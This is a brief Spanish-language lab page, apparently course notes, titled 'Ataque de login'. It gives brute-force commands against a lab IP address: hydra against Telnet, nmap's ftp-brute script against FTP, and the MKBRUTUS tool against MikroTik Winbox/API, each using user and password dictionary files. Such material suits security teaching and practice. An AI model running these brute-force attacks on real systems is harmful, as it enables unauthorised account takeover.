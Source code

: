 ```yaml
---
theme: "just-the-docs"
title: "Ataque de login"
layout: default
nav_order: 7
parent: "ARRAY DIINF 2024"
---
```

```bash
cd /home/lesand/Desktop/tools/diccionarios
echo "admin" > archivo.txt
```
# Ataque TELNET
## NMAP
```bash
hydra -L usuarios.txt -P diccionario.txt telnet://192.168.85.134
```
# Ataque FTP
```bash
nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=diccionario.txt 192.168.85.134
```
# Winbox/API Mikrotik
```bash
cd /home/lesand/Desktop/tools
git clone https://github.com/mkbrutusproject/MKBRUTUS.git
cd MKBRUTUS
python3 mkbrutus.py -t 192.168.85.134 -d /home/lesand/Desktop/tools/diccionarios/diccionario.txt
```
